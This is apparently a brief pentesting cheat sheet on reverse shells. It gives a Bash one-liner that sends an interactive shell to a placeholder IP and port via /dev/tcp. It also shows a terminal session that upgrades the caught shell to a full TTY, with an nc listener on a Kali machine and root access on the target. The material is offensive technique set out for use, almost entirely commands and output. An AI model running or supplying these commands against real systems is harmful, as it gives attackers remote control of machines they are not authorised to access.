 # Reverse Shells

## One-Liners

### Bash
Easy Bash
```
bash -c "bash -i >& /dev/tcp/<IP>/<port> 0>&1"
```
Shell Upgrade
```
root@target:/backend# script /dev/null -c bash
script /dev/null -c bash            
Script started, file is /dev/null
root@target:/backend# ^Z                 
[1]+  Stopped                 nc -lnvp 1337
chuxtr@kali$ stty raw -echo; fg
nc -lnvp 1337
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@target:/backend#
```
